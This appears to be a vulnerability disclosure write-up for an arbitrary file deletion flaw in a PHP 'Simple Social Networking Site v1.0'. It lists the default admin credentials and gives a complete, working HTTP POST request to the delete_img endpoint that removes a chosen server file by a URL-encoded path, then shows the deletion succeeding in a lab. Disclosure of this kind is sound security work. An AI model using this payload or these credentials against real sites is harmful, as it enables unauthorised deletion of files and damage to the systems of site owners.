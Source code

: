 # Simple Social Networking Site v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Vulnerability File: /sns/classes/Master.php?f=delete_img

Vulnerability location: /sns/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shel.php file in the root directory

```sql
POST /sns/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/sns/admin/?page=system_info
Content-Length: 62
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Fsns%2Fadmin%2Fshell.php
```

The file path needs to be encoded by url

![image](https://user-images.githubusercontent.com/54017627/166924905-d7459282-fc4b-45a8-84ee-b29c5aac6f71.png)

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the admin directory of the website

![image](https://user-images.githubusercontent.com/54017627/166925010-aad1c78d-815d-48fb-8e39-a2aeadbbb1fb.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/166926218-141f0ee0-f86f-43a5-92aa-6af2a29a7269.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/166926180-2503631c-a296-4232-859c-de8db7c4e29e.png)
